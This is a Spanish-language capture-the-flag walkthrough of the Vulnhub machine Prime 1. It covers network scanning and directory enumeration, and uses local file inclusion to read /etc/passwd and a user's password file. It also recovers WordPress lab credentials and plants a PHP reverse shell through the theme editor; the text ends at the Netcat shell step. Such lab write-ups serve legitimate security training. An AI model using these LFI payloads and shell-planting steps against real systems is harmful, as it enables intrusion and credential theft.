 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=FF0000&width=200&height=70&lines=Prime_1"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/prime-1,358/

</br>

> Esta máquina está diseñada para aquellos que intentan prepararse para el examen OSCP. 

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/173474426-a673d820-8b68-40c9-89f6-4686e436978f.png"></h1>

- *Paso 1:* Identificar la IP de la máquina host con NetDiscover. 
```
netdiscover -i eth0
```
![2](https://user-images.githubusercontent.com/75953873/173475187-1682b0c5-0c7e-410c-9455-98e8cd6c5e81.png)

IP host: `192.168.25.133`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -Pn -vvv 192.168.25.133
```
![3](https://user-images.githubusercontent.com/75953873/173475468-fee78430-41f0-4a6f-a18d-5934250a6aac.png)

Puertos abiertos: [22,80]

- *Paso 3:* Escaneo agresivo para detectar servicios corriendo.
```
nmap -A 192.168.25.133
```
![4](https://user-images.githubusercontent.com/75953873/173476100-ae65ae3d-4a36-466c-aa98-fbc4fee2c738.png)

Servidor corriendo: **HTTP Apache**

- *Paso 4:* Recorrido de ruta: enumerar archivos .txt con Dirb.

URL: `http://192.168.25.133`

![5](https://user-images.githubusercontent.com/75953873/173476731-79f7a93a-f659-4563-9cfd-d1f271f16a90.png)

```
dirb http://192.168.25.133 -X .txt
```
![6](https://user-images.githubusercontent.com/75953873/173477255-427b51b9-6023-48d8-a0aa-fbb42aa4af16.png)

Archivo secreto: `http://192.168.25.133/secret.txt`

![7](https://user-images.githubusercontent.com/75953873/173477715-6d51f82c-21fe-42c4-854f-fc5f9ca5d17a.png)

Probar los comandos Fuzzing que proporciona el repositorio de Github, el objetivo es encontrar un párametro para navegar dentro de él.

Comando fuzzy: `file`

![8](https://user-images.githubusercontent.com/75953873/173478463-cfd85ea0-4cdc-465c-95a1-79f699dcfd5a.png)

Unir la URL: `http://192.168.25.133/index.php?file=`

![9](https://user-images.githubusercontent.com/75953873/173478799-cd7249ce-8843-499b-917d-c43d22dcc4f4.png)

Archivo proporcionado: `location.txt`

URL completa: `http://192.168.25.133/index.php?file=location.txt`

![10](https://user-images.githubusercontent.com/75953873/173478934-d1f7d4ab-2b65-4666-87f9-346ebcae02b7.png)

El archivo `location.txt` nos dio una pista para usar `secrettire360` como parámetro en otra página php aprovechando la vulnerabilidad de inclusión de archivos locales (LFI).

Localizar archivos `.php` con Dirb:
```
dirb http://192.168.25.133 -X .php
```
![11](https://user-images.githubusercontent.com/75953873/173479528-29899116-a8f6-4a6a-b435-1ebca5e8c50d.png)

Pista: `secrettire360`

URL completa: `http://192.168.25.133/image.php?secrettier360`

```
dirb http://192.168.25.133 -X .php `http://192.168.25.133/image.php?secrettier360` /usr/share/dirb/wordlists/extensions_common.txt
```
![12](https://user-images.githubusercontent.com/75953873/173480064-2e0d0446-d55b-4bbc-97d1-1e7b4fa919f1.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/etc/passwd`

El usuario `Saket` menciona que dentro de su directorio `/home/saket/` se encuentra el archivo `password.txt`.

![13](https://user-images.githubusercontent.com/75953873/173481350-5277704e-627a-4568-9ded-bf3f91e9a38f.png)

URL completa: `http://192.168.25.133/image.php?secrettier360=/home/saket/password.txt`

![14](https://user-images.githubusercontent.com/75953873/173481656-71110280-511b-4654-823f-1a818ed71a09.png)

**_Credenciales WordPress_**

Usuario: `victor`

Contraseña: `follow_the_ippsec`

URL login: `http://192.168.25.133/wordpress/wp-login.php`

![15](https://user-images.githubusercontent.com/75953873/173482220-0ac1e036-8fea-4224-a696-d31344dd3aa1.png)

- *Paso 5:* Escribir código malicioso PHP.

Apariencia **>** Editor de temas **>** secret.php

![16](https://user-images.githubusercontent.com/75953873/173482698-dbb9561f-e59e-41ef-82d9-8a2152341170.png)

Ruta del código PHP del reverse shell:

```
cat /usr/share/webshells/php/php-reverse-shell.php
```
Cambiar la línea `$ip` por la IP local de su máquina, el puerto lo establecen a `4444`. Guardar cambios **_'Update Files'_**.

![17](https://user-images.githubusercontent.com/75953873/173484877-992337aa-07ec-4e77-9911-3d2012f90cec.png)

- *Paso 6:* Obtener una reverse shell con Netcat.
